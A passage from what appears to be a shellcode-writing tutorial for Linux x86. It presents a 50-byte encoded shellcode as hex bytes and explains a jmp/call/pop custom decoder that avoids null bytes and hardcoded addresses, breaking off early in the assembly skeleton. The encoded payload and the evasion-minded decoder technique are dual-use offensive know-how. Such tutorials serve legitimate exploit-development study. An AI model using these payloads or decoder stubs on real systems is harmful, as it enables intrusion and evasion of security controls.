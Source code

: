 Encoded Shellcode Length 50
</pre>

### The Custom Decoder&nbsp;

<p style="text-align:justify;">
At this section, an assembly wrapper will be used to decode the encoded payload which will implement the decoding scheme. The main purpose of the custom decoder is to implement a generic solution making the decoder work in different linux environments. The decoding scheme will be applied at the following encoded payload.
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
0x4e,0xc7,0x51,0xec,0x58,0x01,0xdb,0x3f,0xef,0xf4,0xef,0xda,0x2a,0x3e,0xdb,0x1e,0xdb,0x9b,0xef,0x9a,0x3b,0x95,0xcb,0x32,0xfb,0xf0,0xc5,0x72,0x23,0x24,0x58,0x42,0xc5,0x86,0x33,0x8c,0x28,0x55,0xc5,0x35,0x43,0x24,0x56,0x76,0xad,0x09,0x02,0x10,0x55,0x39
</pre>

<p style="text-align:justify;">
The custom decoder implemented using the <b>jmp/call/pop</b> technique in order to achieve two basic things
</p>

1. Avoid null bytes
2. Avoid hardcoded addresses


<p style="text-align:justify;">
In order the shellcode to work in other linux systems or other vulnerable programs, it should not contain hardcoded addresses. Furthermore, the shellcode&nbsp;must not contain <b>\x00 (null)</b> bytes as these used to terminate a string with a certain impact of breaking the shellcode and stop execution.
</p>

<p style="text-align:justify;">
Along with the above two points in mind it is time to start implementing the shellcode while first describing the <b>jmp/call/pop</b> technique as shown at the following program structure
</p>

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
global _start 

section .text 

_start: 
      jmp short call_shellcode

init: 
      pop esi
      [...]
